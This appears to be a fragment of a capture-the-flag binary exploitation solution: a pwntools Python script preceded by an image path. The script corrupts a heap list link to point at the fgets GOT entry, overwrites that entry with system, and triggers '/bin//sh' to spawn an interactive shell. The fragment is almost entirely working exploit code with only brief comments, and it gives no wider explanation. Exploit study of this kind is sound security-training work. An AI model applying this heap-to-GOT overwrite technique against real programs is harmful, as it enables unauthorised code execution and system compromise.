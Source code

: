 ```py
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system (+1 for for stack alignment)
io.sendlineafter(b'>>>', flat(system + 1))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```